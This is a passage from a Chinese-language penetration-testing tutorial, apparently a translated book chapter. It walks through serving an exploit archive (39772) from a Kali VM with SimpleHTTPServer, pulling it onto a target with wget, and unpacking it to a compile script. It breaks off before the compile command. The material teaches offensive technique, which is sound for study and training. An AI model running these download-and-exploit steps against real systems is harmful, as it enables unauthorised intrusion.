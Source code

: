 1.  下载漏洞文件后，我们需要将其传输到目标系统。这可以通过在 Kali 虚拟机上启动本地 Web 服务器，并使用 **SimpleHTTPServer** Python 模块来完成：

    **sudo python -m SimpleHTTPServer 80**

1.  要将二进制文件下载到目标系统，我们可以使用 **wget** 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，正如我们在前面章节中所做的那样。

1.  现在，我们可以使用 **wget** 工具将漏洞文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

    **wget http://<KALI-VM-IP>/39772.zip**

1.  将漏洞文件传输到目标系统后，我们需要解压该文件。可以通过运行以下命令来完成：

    **unzip 39772.zip**

    解压漏洞文件后，你将看到一个名为 **39772** 的目录。进入该目录后，可以看到以下文件：

    ![图 10.20 – 漏洞利用压缩包内容    ](img/B17389_10_020.jpg)

    图 10.20 – 漏洞利用压缩包内容

1.  现在，我们需要提取 **exploit.tar** 压缩包。可以通过运行以下命令来完成：

    **tar xf exploit.tar**

    在提取 **exploit.tar** 压缩包后，你将看到一个目录，如下图所示：

    ![图 10.21 – 漏洞利用目录    ](img/B17389_10_021.jpg)

    图 10.21 – 漏洞利用目录

    进入此目录后，会显示出一个编译脚本，执行后将生成漏洞利用二进制文件。

1.  我们可以通过运行以下命令来执行漏洞利用编译脚本：
